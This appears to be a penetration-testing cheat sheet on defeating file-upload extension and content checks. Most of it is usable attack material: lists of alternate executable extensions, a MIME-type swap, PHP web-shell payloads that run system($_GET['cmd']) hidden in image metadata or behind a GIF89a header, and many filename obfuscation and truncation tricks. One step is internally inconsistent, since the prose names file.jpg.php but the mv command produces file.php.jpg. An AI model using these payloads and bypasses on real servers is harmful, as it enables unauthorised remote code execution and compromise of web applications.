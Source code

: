 ## Bypassing File Extension Restrictions  

### Alternate extensions
|Type|Extension|
|---|---|
|php|.phptm, phtml, .shtml, .htaccess, .phar, .php, .php2, .php3, .php4, .php5, .php6, .php7, phps, .pht, and .inc|
|asp|asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, cshtm, .cshtml, .rem, .soap, .vhbtm, .vbhtml, .vbhtml, .asa, .cer, .shtml |
|perl|.pl, .pm, .cgi, .lib|
|jsp|.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action|
|Coldfusion|.cfm, .cfml, .cfc, .dbm|
|flash|.swf|
|Erlang Yaws Web Server| .yaws|

### Mime Types
`Content-type: application/x-php`  
Replace with:  
`Content-type: image/jpeg`

### PHP getimagesize()
For file uploads which validate image size using php getimagesize(), it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
### GIF89a; header
GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
```
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```
### File Extension Obfuscation

* Use camelcase 
     * .pHp
     * .pHpS
* Add valid extensions before the execution extension
     * file.jpg.php
* Add Special Characters to the end
     * file.php%20
     * file.php%0a
     * file.php%00
     * file.php%0d%0a
     * file.php/
     * file.php.\
     * file.
     * file.php....
     * file.pHp5....
* Double extensions or add junk
     * file.png.php
     * file.png.pHp5
     * file.php%00.png
     * file.php\x00.png
     * file.php%0a.png
     * file.php%0d%0a.png
     * file.phpJunk123png
 * Add another layer of extensions to the previous check:
     * file.png.jpg.php
     * file.php%00.png%00.jpg
 * place the exec extension before the valid extension
     * file.php.png
 * Use NTFS Alternate data streams (ADS)
     * file.asp::jpg
     * file.asp::$data
 * Use long filenames to overrun the filename limitation and truncate the valid extension
 ```
 # Linux maximum 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
# Upload the file and check response how many characters it alllows. Let's say 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png
```
